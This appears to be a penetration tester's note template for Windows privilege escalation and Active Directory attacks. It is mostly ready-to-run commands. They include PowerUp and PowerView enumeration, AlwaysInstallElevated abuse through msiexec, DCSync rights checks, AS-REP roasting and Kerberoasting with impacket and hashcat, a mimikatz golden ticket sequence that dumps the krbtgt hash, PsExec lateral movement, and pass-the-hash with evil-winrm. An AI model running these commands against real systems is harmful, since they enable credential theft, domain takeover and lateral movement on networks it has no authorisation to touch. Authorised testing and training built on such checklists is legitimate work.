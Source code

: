 <% tp.file.rename("3_privEsc_Windows")%>

> **Completely done with the looting checklist?** [[2_loot_Windows_Template]] Then you can try this:


https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
	include the file `. .\PowerUp.ps1`  and then e.g. `Get-ModifiableServiceFile`


##### Registry misconfigurations
Can .msi's run privileged without UAC?
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
(-> `msiexec /quiet /qn /i c:\path\to\file.msi`)

Always install elevated
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
	

##### [[3_DLL_Hijacking]]

##### LOLBAS
https://lolbas-project.github.io/#

##### Missing binaries in planned tasks?
```powershell
autorunsc64.exe -a t | more
```
(Part of SysInternals - Look for "File Not Found". Also try with `-a s`)
	

##### Modifiable Services
```powershell
accesschk.exe -accepteula -wuvc "Everyone" *
```
(Sysinternals. Also try with  `"Users"`)
	

##### Map Trusts
```powershell
Get-NetForestDomain | Get-NetDomainTrust
```
(PowerView.ps1)
	

Check DCSync Permission
```powershell
Get-ObjectAcl -DistinguishedName "dc=XXX,dc=XXX,dc=XXX" -ResolveGUIDs | ?{($_.IdentityReference -match "XXXUSERNAMEXXX") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
(PowerView.ps1)

##### ASREPRoasting
Find users that don't require preauth
1. Bruteforce user names or
   ```powershell
   Get-DomainUser -PreauthNotRequired -Verbose | ft
   ```
   (PowerView_dev.ps1)
2. 
   ```bash
   python3 ~/tools/impacket/build/scripts-3.11/GetNPUsers.py -dc-host $hip -no-pass -usersfile users.txt $dnsserver -o asrep.hashes
   ```
3.  Use hashcat with -m 18200

##### Request SPN Tickets
```powershell
Get-DomainUser -Identity $user | Get-DomainSPNTicket | select -ExpandProperty Hash
```
(PowerView.ps1)
	

##### Golden Ticket with mimikatz
```
privilege::debug
```

Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```

Open a CMD with elevated privileges to all machines
```
misc::cmd
```

Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```
	

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
	



# Findings